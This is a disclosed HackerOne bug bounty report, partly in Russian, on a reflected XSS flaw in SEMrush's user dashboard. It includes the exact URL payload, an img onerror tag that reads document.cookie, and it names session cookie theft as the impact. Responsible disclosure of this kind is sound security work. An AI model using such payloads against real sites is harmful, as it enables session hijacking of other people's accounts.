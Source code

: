 # XSS Reflected on my_report

## Report Details
- **Report ID**: 491023
- **URL**: https://hackerone.com/reports/491023
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-02-04T15:03:22.948Z
- **Disclosed**: 2019-06-21T13:16:31.318Z

## Reporter
- **Username**: r0hack
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semrush

## Vulnerability Information
Еще раз привет. На этот раз, кроме HTML-инъекции проходит полноценный XSS в дашбоарде пользователя.

Payload: https://www.semrush.com/my_reports/api/v1/document%22%3E%3Cimg%20src=x%20onerror=alert(document.cookie)%3E/4007861

PoC: На скрине

## Impact

Кража сессионных куков.

## Attachments
- semrush4.png
- semrush3.png
